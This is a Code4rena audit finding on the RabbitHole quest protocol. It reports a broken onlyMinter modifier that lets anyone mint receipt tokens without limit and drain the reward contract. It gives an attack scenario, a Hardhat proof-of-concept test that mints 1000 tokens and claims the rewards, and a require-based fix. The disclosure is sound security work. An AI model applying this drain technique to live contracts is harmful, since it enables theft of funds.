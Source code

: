 # Original link
https://github.com/code-423n4/2023-01-rabbithole-findings/issues/111
# Lines of code

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/RabbitHoleReceipt.sol#L58-L61
https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/Quest.sol#L96-L118


# Vulnerability details

## Impact
```onlyMinter``` modifier in ```RabbitHoleReceipt.sol``` is implemented incorrectly. According to protocol's logic a user can call ```mintReceipt``` function to mint one token for every quest. Any user can mint unlimited amount of tokens in ```RabbitHoleReceipt.sol``` contract and therefore drain whole balance of Reward contract which address is held in ```rewardToken``` state variable in ```Quest.sol``` contract.

### Attack scenario
1. Quest creator deploys a ERC20 Reward contract with some initial supply.
2. Then he calls ```createQuest``` function from ```QuestFactory.sol``` to create a new ```Erc20Quest``` contract.
3. Then he calls ```start``` function from ```Erc20Quest.sol``` to start the quest. This function checks if Reward contract has enough balance, according to passed paramaters in ```createQuest``` function.
4. The attackers calls ```mint``` function from ```RabbitHoleReceipt.sol``` contract unlimited times** with same ```address``` and ```questId```.
** He should be careful to not run out of gas, because ```claim``` function from ```Quest.sol``` contract loops over the tokens. This can be easily bypassed with different addresses controlled by the same person.
5. Then the attacker calls ```claim``` function from ```Quest.sol``` to get the rewards. He can calculate the gas amount limit for looping over the tokens and therefore drain whole initial supply from ERC20 Reward contract with one/many account/s.

## Proof of Concept
Add a new test case in ```test/Erc20Quest.spec.ts``` file.

```js
it('should drain rewardToken contract with random address', async () => {
    const signers = await ethers.getSigners();
    const attacker = signers[15];

    // Quest contract owner starts the quest
    // Reward contract's initial supply is: totalRewardsPlusFee * 100
    // totalRewardsPlusFee = 60_030
    // Initial supply value: 60_030 * 100 = 6_003_000
    await deployedQuestContract.start()
    await ethers.provider.send('evm_increaseTime', [86400])

    // Attacker mints 10 tokens to his address, bypassing onlyMinter modifier
    for (let i = 0; i < 1000; ++i) {
      await deployedRabbitholeReceiptContract.connect(attacker).mint(attacker.address, questId)
    }

    const totalTokens = await deployedRabbitholeReceiptContract.getOwnedTokenIdsOfQuest(questId, attacker.address)
    expect(totalTokens.length).to.equal(1000)

    // Initially the attacker doesn't have any tokens, because he didn't execute claim() yet
    expect(await deployedSampleErc20Contract.balanceOf(attacker.address)).to.equal(0)

    // One account can mint ~1_000 tokens. If it is more than that, claim() function will be running out of gas
    // Gets 1000 reward amount for every token. 1_000 tokens = 1_000_000 reward amount per account
    await deployedQuestContract.connect(attacker).claim()
    expect(await deployedSampleErc20Contract.balanceOf(attacker.address)).to.equal(rewardAmount * 1_000)
})
```

## Tools Used
Hardhat

## Recommended Mitigation Steps
Require function should be added to correctly check the minter's address.

```solidity
modifier onlyMinter() {
    require(msg.sender == minterAddress);
    _;
}
```